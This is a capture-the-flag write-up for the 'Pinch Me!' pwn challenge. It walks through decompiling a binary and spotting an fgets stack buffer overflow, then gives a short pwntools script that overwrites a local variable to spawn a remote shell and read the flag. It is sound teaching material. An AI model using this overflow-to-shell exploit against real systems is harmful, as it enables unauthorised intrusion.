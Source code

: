 # Pinch Me! | pwn 100

`This should be easy!`

# Investigation
We're given a binary file, if you run it and enter a string you get "Pinch me!" back.

```
nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480
Is this a real life, or is it just a fanta sea?
Am I dreaming?
some input
Pinch me!
```

Decompiling the code in Ghidra, you get

```
void vuln(void)

{
  char local_28 [24];
  int local_10;
  int local_c;

  local_c = 0x1234567;
  local_10 = -0x76543211;
  puts("Is this a real life, or is it just a fanta sea?");
  puts("Am I dreaming?");
  fgets(local_28,100,stdin);
  if (local_10 == 0x1337c0de) {
    system("/bin/sh");
  }
  else {
    if (local_c == 0x1234567) {
      puts("Pinch me!");
    }
    else {
      puts("Pinch me harder!");
    }
  }
  return;
}
```

So `local_10` has to be `0x1337c0de` and we get a shell, but we have no way to write to that

The most interesting thing here is that we have an `fgets` reading 100 bytes, into a variable with only `24`. Surely that'll be an issue.

I know this will cause a buffer overflow, but I've only ever caused `Segmentation Faults` when I did that by accident. How can use them here?


[CTF101](https://ctf101.org/binary-exploitation/buffer-overflow/) explains it very well, the excess from our input over 24 bytes will overflow into `local_10`, so we can use that to rewrite variable values.


# Experiments
I started by padding out some values to see if I could trigger `pinch me harder`.

```
nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480
Is this a real life, or is it just a fanta sea?
Am I dreaming?
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000012345678133
Pinch me harder!
```

Ok, but how do we control that memory more precisely? I tried adding `0x1337c0de` to the end, but no joy. I kept falling into the else condition.


That was when [Cieran](https://github.com/cieran) from the team had just solved another PWN challenge, and was digging around with [PWN tools](https://docs.pwntools.com/en/stable/), a frankly magical python library for exploiting PWN challenges.

We can make our exploit above very easily using
```
from pwn import *

host = remote("dctf1-chall-pinch-me.westeurope.azurecontainer.io", 7480)
host.recv()

buffer_overflow = b'a'*24
buffer_overflow += p64(0x1337c0de)

host.sendline(buffer_overflow)
host.interactive()

```

- `buffer_overflow = b'a'*24` generate a btye string with 24 `a` characters
- `buffer_overflow += p64(0x1337c0de)` [pack](https://docs.pwntools.com/en/stable/util/packing.html) our payload, we want `local_10` to contain `1337c0de`.

Send and we get a shell, so `host.interactive()` allows us to enter commands.

```
$ ls
flag.txt
pinch_me
startService.sh
$ strings flag.txt
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}

```
